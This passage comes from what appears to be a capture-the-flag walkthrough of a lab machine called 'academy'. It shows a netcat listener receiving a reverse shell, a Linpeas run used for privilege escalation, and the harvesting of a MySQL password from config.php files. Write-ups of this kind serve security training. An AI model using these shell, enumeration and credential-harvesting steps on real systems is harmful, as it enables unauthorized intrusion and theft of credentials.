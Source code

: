 ### Getting Reverse Shell

After it executed we got the shell

```shell
┌──(psychic㉿0xShakhawat)-[~]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [192.168.208.139] from (UNKNOWN) [192.168.208.129] 36288
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 15:11:20 up 2 days, 10:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
academy
$ sudo -l
/bin/sh: 3: sudo: not found
$ 
```
We got the www-data user shell, but We don't have sudo privilege access.

Now, escalate the privilege.

## Privilege Escalation
After gaining initial access, our next step was privilege escalation. We used `python3 -m http.server` to transfer Linpeas to the target machine. After making it executable with `chmod +x linpeas.sh`, we ran the script to gather system information.    

**Linpeas Output:**
```shell
crontab: * * * * * /home/grimmie/backup.sh

grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
root:x:0:0:root:/root:/bin/bash

/usr/bin/gettext.sh 


/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

```

**Config File Content:**

```shell
$ cat /var/www/html/academy/includes/config.php
<?php                                                                                                        
$mysql_hostname = "localhost";                                                                               
$mysql_user = "grimmie";                                                                                     
$mysql_password = "My_V3ryS3cur3_P4ss";                                                                      
$mysql_database = "onlinecourse";                                                                            
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");

?>
$ 
```
